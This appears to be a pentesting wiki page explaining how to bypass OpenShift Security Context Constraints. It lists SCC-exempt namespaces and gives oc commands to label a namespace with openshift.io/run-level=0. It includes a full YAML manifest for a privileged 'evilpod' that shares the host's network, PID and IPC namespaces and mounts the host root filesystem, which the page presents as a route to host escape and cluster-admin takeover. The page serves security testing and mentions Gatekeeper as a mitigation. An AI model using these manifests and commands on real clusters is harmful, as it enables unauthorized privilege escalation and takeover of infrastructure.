 # Openshift - SCC bypass

{{#include /banners/hacktricks-training.md}}

**The original author of this page is** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Privileged Namespaces

By default, SCC does not apply on following projects :

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

If you deploy pods within one of those namespaces, no SCC will be enforced, allowing for the deployment of privileged pods or mounting of the host file system.

## Namespace Label

There is a way to disable the SCC application on your pod according to RedHat documentation. You will need to have at least one of the following permission :

- Create a Namespace and Create a Pod on this Namespace
- Edit a Namespace and Create a Pod on this Namespace

```bash
$ oc auth can-i create namespaces
  yes

$ oc auth can-i patch namespaces
  yes
```

The specific label`openshift.io/run-level` enables users to circumvent SCCs for applications. As per RedHat documentation, when this label is utilized, no SCCs are enforced on all pods within that namespace, effectively removing any restrictions.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Add Label

To add the label in your namespace :

```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```

To create a namespace with the label through a YAML file:

```yaml
apiVersion: v1
kind: Namespace
metadata:
  name: evil
  labels:
    openshift.io/run-level: 0
```

Now, all new pods created on the namespace should not have any SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$                                            
</strong></code></pre>

In the absence of SCC, there are no restrictions on your pod definition. This means that a malicious pod can be easily created to escape onto the host system.

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: evilpod
  labels:
    kubernetes.io/hostname: evilpod
spec:
  hostNetwork: true #Bind pod network to the host network
  hostPID: true #See host processes
  hostIPC: true #Access host inter processes
  containers:
    - name: evil
      image: MYIMAGE
      imagePullPolicy: IfNotPresent
      securityContext:
        privileged: true
        allowPrivilegeEscalation: true
      resources:
        limits:
          memory: 200Mi
        requests:
          cpu: 30m
          memory: 100Mi
      volumeMounts:
        - name: hostrootfs
          mountPath: /mnt
  volumes:
    - name: hostrootfs
      hostPath:
        path:
```

Now, it has become easier to escalate privileges to access the host system and subsequently take over the entire cluster, gaining 'cluster-admin' privileges. Look for **Node-Post Exploitation** part in the following page :

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Custom labels

Furthermore, based on the target setup, some custom labels / annotations may be used in the same way as the previous attack scenario. Even if it is not made for, labels could be used to give permissions, restrict or not a specific resource.

Try to look for custom labels if you can read some resources. Here a list of interesting resources :

- Pod
- Deployment
- Namespace
- Service
- Route

```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```

## List all privileged namespaces

```bash
$ oc get project -o yaml | grep 'run-level' -b5
```

## Advanced exploit

In OpenShift, as demonstrated earlier, having permission to deploy a pod in a namespace with the `openshift.io/run-level`label can lead to a straightforward takeover of the cluster. From a cluster settings perspective, this functionality **cannot be disabled**, as it is inherent to OpenShift's design.

However, mitigation measures like **Open Policy Agent GateKeeper** can prevent users from setting this label.

To bypass GateKeeper's rules and set this label to execute a cluster takeover, **attackers would need to identify alternative methods.**

## References

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)



{{#include /banners/hacktricks-training.md}}
